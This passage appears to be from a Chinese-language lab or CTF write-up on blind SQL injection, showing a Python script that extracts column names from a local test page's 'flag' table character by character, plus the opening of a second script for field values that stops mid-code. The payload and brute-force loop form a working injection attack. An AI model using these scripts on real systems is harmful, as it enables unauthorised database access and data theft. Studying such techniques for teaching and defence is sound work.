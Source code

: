 ###### 泄露字段名

只需要将脚本稍加修改就能使用

```py
import string
import requests

# 攻击的url
url = 'http://localhost/sql-injection/blind.php'
# 字符集
# 包含小写字母、数字、特殊字符
charset = string.ascii_lowercase + string.digits + string.punctuation
# 最大数据长度
max_len = 4
# 定义数据库名
table_name = 'flag'
# 定义字段名
column_name = ''

for i in range(1, max_len + 1):
    for char in charset:
        print(f'正在第{i}次尝试字符{char}')
        payload = f"1' AND SUBSTR((SELECT GROUP_CONCAT(COLUMN_NAME) FROM information_schema.columns WHERE TABLE_SCHEMA=DATABASE() AND TABLE_NAME='{table_name}'),{i},1)='{char}'#"
        response = requests.post(url, data={'username': payload})
        if not '输入的用户名不存在' in response.text:
            column_name += char

print(column_name)
```

运行脚本，得到字段名

> <img src="./IMG3/1.png">

###### 泄露字段值

```py
import string
import requests

# 攻击的url
url = 'http://localhost/sql-injection/blind.php'
# 字符集
# 包含小写字母、数字、特殊字符
charset = string.ascii_lowercase + string.digits + string.punctuation
# 最大数据长度
max_len = 50
# 定义数据库名
table_name = 'flag'
# 定义字段名
column_name = 'flag'
# 定义字段值
value = ''
```
